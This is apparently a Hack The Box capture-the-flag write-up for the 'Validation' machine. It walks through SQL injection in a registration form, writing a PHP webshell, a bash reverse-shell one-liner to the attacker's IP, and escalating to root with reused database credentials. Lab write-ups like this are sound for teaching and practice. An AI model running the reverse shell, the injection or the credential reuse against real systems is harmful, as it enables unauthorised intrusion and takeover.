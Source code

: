 +++
title = "HTB: Validation"
date = "2022-06-22T21:03:46-05:00"
author = "l0gan334"
cover = "Validation.png"
tags = ["hacking", "ctf", "eJPT-like", "HTB", "linux"]
keywords = ["", ""]
description = "**HTB | Validation - Write up**"
showFullContent = false
readingTime = false
hideComments = false
+++

**Validation** is a Hack The Box machine ranked easy.

Its main challenge is **SQL Injection** where we're going to be able to write a **webshell** into the web server. 

# **```Recon```**
# Nmap scan
With **nmap** we will find opened ports and examinate them:
```bash 
❯ nmap -p- -sS --min-rate 5000 --open -n -Pn 10.129.84.93 -oG allPorts
```

We are exporting the result in grepable format, which is great to manage with regex and get all the ports without needing to type them one by one:

{{< code language="bash" title="Here you have an useful function you can use for this manner" id="1" expand="Show" collapse="Hide" isCollapsed="false" >}}
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
	ip_address="$(cat $1 | grep initiated | awk 'NF{print $NF}')"
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat extractPorts.tmp
	rm extractPorts.tmp
}
{{< /code >}}
```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.129.84.93
	[*] Open ports: 22,80,4566,8080

[*] Ports copied to clipboard
```

Now that we have the opened ports we can examinate them deeply.
```bash
nmap -sCV -p 22,80,4566.8080 10.129.84.93 -oN targeted

Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 12:55 -05
Nmap scan report for 10.129.84.93
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.98 seconds
```

**Port 80** is opened with a **http** service, we can make a quick inspection with **whatweb**:
```bash
❯ whatweb http://10.129.85.93
http://10.129.84.93 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)],
IP[10.129.84.93], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
```

We don't get much information so it's time to visit the page:

{{< image src="/img/sc3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

It's a register panel that doesn't seem to do much...

{{< image src="/img/test.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


We will intercept the register request with **Burpsuite** so we can do some tests.
{{< image src="/img/val-2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

After a simple test we see how the *country* field is vulnerable to **SQLI**:
{{< image src="/img/val-1.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


We could look for credentials in the dabatase but we can also check if we can write files:
{{< image src="/img/val-3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We will test this by writing "test" into /var/www/html/test.txt which is the default route where the website files are located:
{{< image src="/img/val-4.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

And it works!

**Wappalyzer** shows us the programming language used by the website:
{{< image src="/img/val-5.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


So now we can write a simple web shell in **php** and get **Remote Command Execution.**
{{< image src="/img/val-6.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

This script will create a **webshell** in **/shell.php** which takes the parameter **cmd** to execute commands:
{{< image src="/img/val-7.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

# **```Intrusion```**

Now we can get a reverse shell with this payload:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.161/334 0>&1'
```

Here we specify our **IP address** and the **port** where we're going to set the listener.

As we are sending this payload over **URL** the **'&'** might give us syntax problems so we will url-encode this character as **%26**:
{{< image src="/img/val-9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


Now we check our listener and we wait for the connection:
```bash
❯ nc -lvnp 334
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::334
Ncat: Listening on 0.0.0.0:334
Ncat: Connection from 10.129.83.187.
Ncat: Connection from 10.129.83.187:46728.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$
```


We have a shell but not a **tty** so we will do a **tty treatment**:
```bash
www-data@validation:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@validation:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 334

❯ stty raw -echo; fg
[1]  + continued  nc -lvnp 334
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```

And finally the last touches.
```bash
www-data@validation:/var/www/html$ export SHELL=bash
www-data@validation:/var/www/html$ export TERM=xterm
www-data@validation:/var/www/html$ stty rows 40 columns 45
```

This way we will have the correct screen size (you can find your own with ```stty size```) and we are also able to do ^L.


Now that we have everything set we look for the **user flag** and start the enumeration:

```bash
www-data@validation:/var/www/html$ cd /home
www-data@validation:/home$ ls
htb
www-data@validation:/home$ cd htb
www-data@validation:/home/htb$ cat user.txt
18ed73a646e875a23aaaa1**********
```

Nice, we found the **user.txt** now we can move on.

Inside **/var/www/html** we find this:
```bash
www-data@validation:/var/www/html$ ls
account.php  config.php  css  index.php  js
```

There's a configuration file, which are usually very interesting and might contain credentials:
```bash
www-data@validation:/var/www/html$ cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

These are supposed to be **database** credentials, however, we have to check if they're being reused by any user inside the machine, like **root**:
```text
www-data@validation:/var/www/html$ su root
Password:  
root@validation:/var/www/html# whoami
root
```
And it is! Not a hard privilege escalation this time.

```bash
root@validation:/var/www/html# cat /root/root.txt
8e1b95544267b95044**************
```

See you next time!